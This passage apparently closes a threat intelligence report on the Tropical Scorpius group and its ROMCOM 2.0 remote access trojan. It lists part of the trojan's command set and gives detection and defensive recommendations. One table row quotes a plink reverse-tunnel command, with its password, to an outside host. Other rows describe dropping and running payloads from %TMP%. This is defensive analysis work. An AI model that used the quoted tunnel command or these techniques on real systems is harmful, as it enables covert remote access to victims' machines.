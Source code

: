 
16
Get list of installed software by querying SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall or SOFTWARE\\WOW6432Node\\Microsoft\\Windows\\CurrentVersion\\Uninstall


18
Write received file SCREENSHOOTER to %TMP%\\PhotoDirector.dll


19
Create %TMP%\\BrowserData folder, and write received file to %TMP%\\BrowserData\\explorer.exe before executing


20
Write received file to and spawn %TMP%\\win_sshd.exe, described as FreeSSHd


21
References plink.exe -ssh -pw AeM8soequ@ooNg -R 9999:4444 poncho@CombinedResidency.org\n, however appears to only execute C:\\Program Files (x86)\\freeSSHd\\FreeSSHDService.exe


22
Terminate svcnet.exe, FreeSSHDService.exe, and plink.exe



Table 4. ROMCOM 2.0 supported commands.
Protections and Mitigations
We recommend leveraging the indicators of compromise (IoCs) below to identify any impacts to your organization.
Palo Alto Networks detects and prevents Cuba Ransomware and Tropical Scorpius activity in the following ways:

Cortex XDR with

Detection for all indicators for Cuba Ransomware and related activity.
Anti-Ransomware module to detect Cuba Ransomware encryption behaviors on Windows systems.
Local Analysis detection for Cuba Ransomware and ROMCOM RAT binaries on Windows environments.
Behavioral Threat Protection rule prevents execution of related indicators.


WildFire: All known samples are identified as malware.
Threat Prevention provides protection against Tropical Scorpius infrastructure.
Advanced URL Filtering and DNS Security identify domains associated with this group as malicious.

Indicators of compromise and associated TTPs can be found in the Tropical Scorpius ATOM.
If you think you may have been impacted or have an urgent matter, get in touch with the Unit 42 Incident Response team or call:

North America Toll-Free: 866.486.4842 (866.4.UNIT42)
EMEA: +31.20.299.3130
APAC: +65.6983.8730
Japan: +81.50.1790.0200

If you have cyber insurance, you can request Unit 42 by name. You can also take preventative steps by requesting any of our cyber risk management services.
Conclusion
Tropical Scorpius remains an active threat. The group’s activity makes it clear that an approach to tradecraft using a hybrid of more nuanced tools focusing on low-level Windows internals for defense evasion and local privilege escalation can be highly effective during an intrusion.
Coupled with a splash of well-adopted and successful crimeware techniques, this presents unique challenges to defenders.
Unit 42 recommends that defenders have advanced logging capabilities deployed and configured properly such as Sysmon, Windows Command Line logging and PowerShell logging – ideally forwarding to a Security Information and Event Management tool (SIEM) to create queries and detection opportunities. Keep computer systems patched and up to date wherever possible to reduce attack surface related to exploitation techniques.
Deploy an XDR/EDR solution to perform in-memory inspection and detect process injection techniques. Perform threat hunting looking for signs of unusual behavior related to security product defense evasion, service accounts for lateral movement and domain administrator-related user behavior.